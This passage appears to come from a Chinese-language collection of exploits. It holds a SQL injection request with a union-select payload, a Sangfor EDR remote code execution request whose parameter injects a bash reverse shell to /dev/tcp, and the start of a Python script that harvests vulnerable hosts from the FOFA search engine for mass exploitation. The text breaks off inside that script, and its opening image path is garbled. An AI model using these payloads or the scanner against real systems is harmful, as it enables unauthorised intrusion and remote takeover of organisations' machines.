 Cookie: PHPSESSID=ijqtopbcbmu8d70o5t3kmvgt57

Content-Type: application/x-www-form-urlencoded

Content-Length: 201

t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22--+&gid=0&lmt=10&o=r\_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。

3\. 深信服 EDR RCE 漏洞

POST /api/edr/sangforinter/v2/cssp/slog\_client?token=eyJtZDUiOnRydWV9 HTTP/1.1

Host: xx.x.x.x

Connection: close

Accept-Encoding: gzip, deflate

Accept: \*/\*

User-Agent: python-requests/2.22.0

Content-Length: 77

{"params": "w=123\\"'1234123'\\"|bash -i>& /dev/tcp/ip/port 0>&1"}

![](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZJdqp1Zh96BCINdMBXZtC9iaalqlpBkFUibdribpE8mpaea5RBIoqYtBP4wrDq5XwaIJBtAbbOXVkibRA/640?wx_fmt=png)

#coding:utf-8

import requests,json,sys

import re

import warnings

warnings.filterwarnings("ignore")

qbase64 = "dGl0bGU9IlNBTkdGT1Lnu4jnq6%2Fmo4DmtYvlk43lupTlubPlj7Ai"

email = ""

key = ""

timeout = 5

headers={

    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36"

}

def getFofaAssest():

    result = \[\]

    url = "https://fofa.so/api/v1/search/all?email=%s&key=%s&qbase64=%s&page=1&size=10000&fields=host,title" %(email,key,qbase64)

    res = requests.get(url)
